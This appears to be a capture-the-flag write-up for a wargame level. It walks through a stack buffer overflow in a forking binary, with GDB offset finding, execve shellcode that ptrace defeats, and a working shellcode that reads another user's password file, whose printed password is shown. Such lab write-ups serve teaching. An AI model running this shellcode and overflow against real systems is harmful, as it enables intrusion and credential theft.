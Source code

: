 ## LEVEL 04
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level04.asm) and the [source file](./src/level04.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

#### For this level the usage of buffer overflow is possible.

---

I recommend that you read the entire source code because this level features complex code. My explanation will be brief, because it utilizes the same technique as many previous levels. If you encounter any difficulties in understanding, I suggest referring to the previous levels and my [rainfall](https://github.com/mathias-mrsn/rainfall) repository. I'm confident that you will find the answers to your questions there.

First thing I notice is that the program use `gets` who has a hugh vulnerability that we already used in the first levels of rainfall. So I will use it again.

```c
gets(local_var_20);
```

The second thing I noticed is the usage of `fork` for the first time. Essentially, `fork` creates a duplicate of the process, including its entire memory. Therefore, if we want to overwrite a specific address, we need to follow the child process using GDB. To achieve this, we can utilize the `follow-fork-mode` option.

```bash
(gdb) set follow-fork-mode child
```

I export the shellcode inside environment variable `SHELLCODE` and easily find the address of it.

```bash
export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Now we can launch gdb and find the length between the buffer and where the return address is stored. Also called the EIP offset.

```bash
(gdb) x/x $ebp+4
0xffffd6ac:	0xf7e45513
(gdb) x/x $esp+0x20
0xffffd610:	0x00000000
```

The EIP offset is 0x9c. Now we can use the same technique as the previous levels to overwrite the return address. Now we just need to address the address of the environment variable `SHELLCODE` to overwrite the address of the return address with it.

```bash
(gdb) x/s *((char**)environ)
0xffffd844:	 "SHELLCODE=\220\220\220\220\220\220\220\220
```

The address of the environment variable `SHELLCODE` is 0xffffd844. I add 0x20 to the address to jump over the environment variable name and reach the NOP. The final address is 0xffffd864.

Now we have everything we need to exploit this level. 

```bash
$ (python -c 'print "\x90"*156 + "\x44\xd8\xff\xff"'; cat -) | ./level04
Give me some shellcode, k
no exec() for you
```

No this doesn't seem to work. But why ?

```c
local_var_a8 = ptrace(3, local_var_ac, 0x2c, 0);
```

If we look this line that is executed in the parent process, we can see that the parent process is waiting for the child process to execute the `exec` syscall. If the child process doesn't execute the `exec` syscall, the parent process will kill the child process. And this is exactly what is happening here. The child process is killed before it can execute the `exec` syscall.

So I have to use code injection through `SHELLCODE` environment variable but this code must not execute `exec()`.

I use [this]("https://shell-storm.org/shellcode/index.html") website that I used in the level2 of rainfall to find the perfect shellcode. And I found it.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
```

This shellcode only use libc functions already loaded inside the compiled binary. So it doesn't need to execute `exec()`, it only use C functions. Now let's try it.

```bash
$ (python -c 'print "\x90"*156 + "\x64\xd8\xff\xff"') | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

---

*Source :*

*https://sourceware.org/gdb/onlinedocs/gdb/Forks.html*